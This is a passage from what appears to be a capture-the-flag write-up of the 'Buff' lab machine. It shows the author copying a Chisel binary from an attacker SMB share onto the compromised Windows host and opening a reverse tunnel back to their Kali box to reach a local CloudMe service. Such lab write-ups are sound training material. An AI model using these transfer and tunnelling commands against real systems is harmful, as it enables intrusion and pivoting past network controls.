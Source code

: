 

The version number for the top two (1.11.2) lines up nicely with the EXE
name from Buff (`CloudMe_1112.exe`).

### Tunnel

To exploit this service, I'll need a tunnel from my box to Buff (or I'd
have to run the exploit from Buff, but Python isn't typically installed
on Windows). I'll use my favorite tool for this,
[Chisel](https://github.com/jpillora/chisel). I'll use the same SMB
share and copy the Windows binary to where I'm staging in
`\programdata`.



    C:\ProgramData>copy \\10.10.14.20\share\chisel_1.6.0_windows_amd64 c.exe
    copy \\10.10.14.20\share\chisel_1.6.0_windows_amd64 c.exe       
            1 file(s) copied.



Now I'll run the Linux binary on Kali in server mode:



    root@kali:/opt/chisel# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
    2020/07/19 07:03:48 server: Reverse tunnelling enabled
    2020/07/19 07:03:48 server: Fingerprint 34:e6:05:6e:5d:8a:f6:a3:72:78:31:31:f5:f3:01:b1
    2020/07/19 07:03:48 server: Listening on 0.0.0.0:8000...



Next, from Buff, I'll run as a client:



    C:\ProgramData>.\c.exe client 10.10.14.20:8000 R:8888:localhost:8888
    .\c.exe client 10.10.14.20:8000 R:8888:localhost:8888           
    2020/07/19 20:07:45 client: Connecting to ws://10.10.14.20:8000 
    2020/07/19 20:07:45 client: Fingerprint 34:e6:05:6e:5d:8a:f6:a3:72:78:31:31:f5:f3:01:b1
    2020/07/19 20:07:45 client: Connected (Latency 1.0595ms)



I can see the connection at the server as well:



    2020/07/19 15:06:13 server: proxy#1:R:0.0.0.0:8888=>localhost:8888: Listening



I can see my local box is listening on 8888:



    root@kali# netstat -ntlp
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      17843/python        
    tcp        0      0 127.0.0.1:38153         0.0.0.0:*               LISTEN      17843/python        
    tcp        0      0 127.0.0.1:54261         0.0.0.0:*               LISTEN      17843/python        
    tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      13166/./chisel_1.6. 
    tcp6       0      0 :::8000                 :::*                    LISTEN      13166/./chisel_1.6. 
    tcp6       0      0 127.0.0.1:41643         :::*                    LISTEN      2654/java           
    tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      2654/java 
